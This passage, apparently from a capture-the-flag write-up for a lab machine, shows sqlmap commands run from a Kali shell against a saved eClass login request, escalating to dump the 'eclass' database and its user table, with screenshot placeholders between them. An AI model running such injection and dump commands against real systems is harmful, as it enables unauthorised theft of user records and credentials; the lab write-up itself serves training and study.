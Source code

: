 ```bash 
root@kali$ sqlmap -r eclasstestlogin –level=5 –risk=3 -v
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni5.png">
    </div>
</div>
<div class="caption">
    SQLmap being run in a VSCode terminal 
</div>     

```bash
root@kali$ sqlmap -r eclasstestlogin -v –current-db
root@kali$ sqlmap -r eclasstestlogin -v -D eclass –dump
root@kali$ sqlmap -r eclasstestlogin -v -D eclass -T user –dump
```  

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni6.png">